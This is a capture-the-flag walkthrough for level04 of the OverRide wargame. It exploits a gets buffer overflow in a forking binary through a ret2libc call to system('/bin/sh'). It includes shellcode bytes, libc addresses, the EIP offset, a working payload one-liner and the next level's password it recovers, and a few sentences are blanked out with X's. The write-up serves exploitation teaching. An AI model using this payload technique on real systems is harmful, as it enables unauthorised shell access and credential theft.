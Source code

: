 # Level 04

Once logged in, you will see a binary.

```
$ ssh localhost -p 4444 -l level04
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on localhost:4242
level04@localhost's password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04
level04@OverRide:~$ ls
level04
```

Once the program executes, it suddenly asks for a [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php), so let's just provide one.

```
level04@OverRide:~$ ./level04
Give me some shellcode, k
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
child is exiting...
level04@OverRide:~$
```

Okay, it seems like this didn't do anything. But, there is a hint given: `child is exiting...`.

In the decompiled source, we can see that the program `fork`s and the parent process watches the child process to see whether it calls `exec` ever. The child process takes input from the function `gets`, and once the child process finishes, the parent process exits as well. (If you haven't already, go take a look at the `source` file, which is relatively well documented.)

Given the fact that it seems we can't use our usual shellcode that uses `exec`, we'll use `system` instead. `share` and `exec` are [similar but different](https://stackoverflow.com/a/27461937). `system` technically uses `exec` as well, but only after performing a `fork`. Because the program forks before running `exec`, the original parent process in this program will not kill it. (Instead of `system`, we could theoretically create a shellcode that does `fork` and then `exec`, but `system` will do just fine here.)

Let's find the address of `system`, which we'll use instead of a shellcode.

```
gdb-peda$ info functions system
[....]
0xf7e6aed0  system
[...]
```

So `0xf7e6aed0` is the address for `system`.

Now we need to figure out how to get the string `"/bin/sh"` from somewhere. Unfortunately, it seems as if we can't use the buffer itself to store the string as it's overwritten during the call to `system`. XXXXXXXXXX because when the process is forked, although it will copy the whole process, [rather](https://stackoverflow.com/questions/51764013/fork-and-virtual-address-spaces#:~:text=What%20fork()%20does%20is,but%20not%20everything%20is%20copied.) XXXXXXXXXXXXX Instead, let's look and see if we can [find the string](https://stackoverflow.com/a/46226054) in the `libc`.

```
gdb-peda$ info proc map
process 2394
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
	0xf7e2b000 0xf7e2c000     0x1000        0x0
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0
	0xf7fd8000 0xf7fda000     0x2000        0x0
	0xf7fda000 0xf7fdb000     0x1000        0x0
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
gdb-peda$ find "/bin/sh" 0xf7e2c000 0xf7fd0000
Searching for '/bin/sh' in range: 0xf7e2c000 - 0xf7fd0000
Found 1 results, display max 1 items:
libc : 0xf7f897ec ("/bin/sh")
```

We'll use `0xf7f897ec` as our argument to `system` to start the shell.

Last, we'll find the offset we need to execute a [buffer overflow](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) on the `gets` call.

```
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x41386541 ('Ae8A')
ECX: 0xf7fd08c4 --> 0x0
EDX: 0xffffd680 ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"...)
ESI: 0x0
EDI: 0x66413965 ('e9Af')
EBP: 0x31664130 ('0Af1')
ESP: 0xffffd720 ("f3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")
EIP: 0x41326641 ('Af2A')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41326641
[------------------------------------stack-------------------------------------]
0000| 0xffffd720 ("f3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")
0004| 0xffffd724 ("4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")
0008| 0xffffd728 ("Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")
0012| 0xffffd72c ("f7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")
0016| 0xffffd730 ("8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")
0020| 0xffffd734 ("Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")
0024| 0xffffd738 ("g1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")
0028| 0xffffd73c ("2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41326641 in ?? ()
```

So the offset for overwriting `EIP` is `156`.

Our final exploit:

```
level04@OverRide:~$ python -c 'import struct; print "B"*(156) + struct.pack("I", 0xf7e6aed0) + "BBBB" + struct.pack("I", 0xf7f897ec)' > /tmp/payload
level04@OverRide:~$ cat /tmp/payload - | ./level04
Give me some shellcode, k
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

## Helpful hints

### `strace`

Forking can be rather difficult to keep track of, and it can be useful to see which processes are running which commands. To do this, use `strace -f`. Note that running this exploit with `strace` will not work as `strace` is being run by `level04` as only calling `./level04` directly will run it as `level05`.

```
level04@OverRide:~$ python -c 'print "B"*156+"\xd0\xae\xe6\xf7"+"BBBB"+"\xec\x97\xf8\xf7"' > /tmp/payload
gdb-peda$ cat /tmp/payload - | strace -f ./level04 2> /tmp/err.txt
[ Process PID=1989 runs in 32 bit mode. ]
Give me some shellcode, k
[ Process PID=1991 runs in 64 bit mode. ]
whoami
level04
[ Process PID=1990 runs in 32 bit mode. ]
child is exiting...
gdb-peda$ cat /tmp/err.txt
execve("./level04", ["./level04"], [/* 20 vars */]) = 0
[...]
```

### Using GDB

For this level, using GDB is complicated because of the use of `fork`ing. In GDB, do [`set follow-fork-mode child`](https://ftp.gnu.org/old-gnu/Manuals/gdb/html_node/gdb_25.html) to follow the child process instead of the parent.
